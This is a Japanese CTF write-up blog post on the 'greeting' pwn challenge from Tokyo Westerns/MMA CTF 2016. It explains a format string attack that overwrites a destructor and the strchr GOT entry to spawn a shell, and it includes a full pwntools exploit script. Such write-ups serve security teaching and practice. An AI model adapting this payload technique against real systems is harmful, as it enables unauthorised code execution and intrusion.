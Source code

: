 ```yaml
---
layout: post
alias: "/blog/2016/12/09/twctf-2016-greeting/"
date: "2016-12-09T18:17:13+09:00"
tags: [ "ctf", "writeup", "pwn", "twctf", "format-string-attack", "destructor", "got-overwrite" ]
"target_url": [ "https://ctftime.org/task/2735" ]
---
```


# Tokyo Westerns/MMA CTF 2nd 2016: greeting

bataさんリストの先頭にあったのでpwn会でやった。これぐらいの難しさはbabyでなくてeasyじゃなかったっけか。

## solution

format string attackでdestructorとGOTを書き換え、return-to-mainして`system("/bin/sh")`。
入出力の文字列長の制約が変に厳しいので`%hn`あたりを上手く使う。


まず気付くのは`.tomori`sectionの`nao`関数。
実行すると呼ばれるが`main`からは呼ばれていないこれは、constructorとして登録されていて、`main`に入る前に呼ばれる。
gdbで`set follow-fork-mode parent`にせずに実行すると`main`でbreakできなかったりするが、これはこの子のおかげ。

format string bugがあるが、`printf`の後に何も関数を踏まないので困ってしまう。
これはdestructorをを書き換えることで回避する。
`nao`が書かれている場所の下、`__do_global_dtors_aux`を書き換えればよい。

destructorでripを取ったとすると引数を渡すのに困る。
そこで`main`関数の先頭に戻り、`fgets`で`/bin/sh`を渡して(`system`に書き換えた)`strchr`に与え、shelを取る。

## implementation

``` python
#!/usr/bin/env python2
from pwn import * # https://pypi.python.org/pypi/pwntools
import argparse
parser = argparse.ArgumentParser()
# parser.add_argument('host', nargs='?', default='localhost')
# parser.add_argument('port', nargs='?', default=8000, type=int)
parser.add_argument('--log-level', default='debug')
args = parser.parse_args()
context.log_level = args.log_level

dtor = 0x8049934 # 0x80485a0 -> main
main = 0x80485ed
strchr_got = 0x8049a50 # 0xffffffff -> system_plt
system_plt = 0x8048490

# p = remote(args.host, args.port)
p = process('./greeting')
p.recvuntil('Please tell me your name... ')
payload = ''
payload += 'AB'
payload += p32(strchr_got) # 12
payload += p32(strchr_got + 2) # 13
payload += p32(dtor) # 14
payload += '%%%dd%%12$hn' % ((u16(p32(system_plt)[0:2]) - len('Nice to meet you, AB' + 'AAAA' * 3)) % 65536)
payload += '%%%dd%%13$hn' % ((u16(p32(system_plt)[2:4]) - u16(p32(system_plt)[0:2])) % 65536)
payload += '%%%dd%%14$hhn' % ((ord(p32(main)[0]) - u16(p32(system_plt)[2:4])) % 256)
log.info(hex(len(payload)))
log.info(fiddling.hexdump(payload))
p.sendline(payload)
time.sleep(1)
p.sendline('sh')
time.sleep(1)
p.sendline('id')
p.interactive()
```
